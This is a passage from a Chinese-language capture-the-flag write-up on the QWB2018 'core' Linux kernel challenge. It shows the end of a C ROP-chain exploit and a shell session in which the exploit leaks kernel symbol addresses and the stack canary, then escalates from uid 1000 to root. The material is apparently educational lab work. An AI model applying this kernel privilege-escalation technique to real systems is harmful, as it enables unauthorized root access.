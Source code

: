 ```C
	
	rop[i++] = user_cs;
	rop[i++] = user_rflags;
	rop[i++] = user_sp;
	rop[i++] = user_ss;

	write(fd, rop, 0x800);
	core_copy_func(fd, 0xffffffffffff0000 | (0x100));

	return 0;
}
```

### get root shell

```bash
QWB2018_core [master●●] gcc exploit.c -static -masm=intel -g -o exploit // 如果使用 intel 汇编需要加上 -masm=intel 
QWB2018_core [master●●] cp exploit give_to_player/core/tmp
cp：是否覆盖'give_to_player/core/tmp/exploit'？ y
QWB2018_core [master●●] cd give_to_player/core
core [master●●] ./gen_cpio.sh core.cpio
.
./usr
./usr/sbin
......
......

core [master●●] mv core.cpio ..
mv：是否覆盖'../core.cpio'？ y
core [master●●] cd ..
give_to_player [master●●] ./start.sh

/ $ ls /tmp/
exploit   kallsyms
/ $ id
uid=1000(chal) gid=1000(chal) groups=1000(chal)
/ $ /tmp/exploit
[*]status has been saved.
commit_creds addr: 0xffffffffbd09c8e0
vmlinux_base addr: 0xffffffffbd000000
prepare_kernel_cred addr: 0xffffffffbd09cce0
[*]set off to 64
[*]read to buf.
[+]canary: 0x6be486f377bb8600
[*]copy from user with size: -65280
/ # id
uid=0(root) gid=0(root)
```
当然这个题目也有其他做法，下篇再分析。
